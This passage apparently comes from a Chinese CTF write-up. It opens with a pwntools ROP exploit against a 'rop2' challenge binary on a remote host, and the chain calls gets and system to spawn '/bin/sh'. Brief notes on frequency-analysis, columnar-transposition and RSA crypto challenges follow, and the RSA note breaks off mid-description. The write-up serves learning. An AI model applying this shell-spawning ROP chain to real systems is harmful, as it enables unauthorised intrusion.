 ```python
r=remote("129.211.58.26",10002)
elf=ELF('./rop2')
sys_addr=p64(elf.symbols["system"])
get_addr=p64(elf.symbols["gets"])
rdi_addr=p64(0x00000000004008e3)
main_addr=p64(0x000000000040080D)
binsh_addr=p64(0x0000000000601080)

#sys_addr=p64(0x0000000000400805)

payload1='A'*12
payload1+=rdi_addr
payload1+=binsh_addr
payload1+=get_addr
payload1+=rdi_addr
payload1+=binsh_addr
payload1+=sys_addr

r.recvline()
r.sendline(payload1)
r.sendline("/bin/sh") 
r.interactive()
#pwn一下就可以拿到flag
```



------

## Crypto

### 一、Frequency analysis?

题目给出的文件是一个装满字符的文本文档，结合题目名字，肯定是分析各个字符出现次数后排序并输出对应的字符得到flag，果断上万能的Python！

脚本如下：

![](https://s2.ax1x.com/2019/09/16/nfRxQs.png)

运行一下Flag就出来了！

### 二、Columnar Transposition

​		这次不用python了，这次用万能的Excel，加解密规则是百度查到的，这里直接放出我的解密格式：

![](https://s2.ax1x.com/2019/09/16/nfR8rq.png)

​       按顺序取出再base64加密提交即可

### 三、Easy_RSA

​       这题叫做Easy_RSA，但是一点不Easy，关键不是算出各个数据，而是生成私钥，由于我用了比较麻烦的方法生成所以这里就不太详细叙说了：
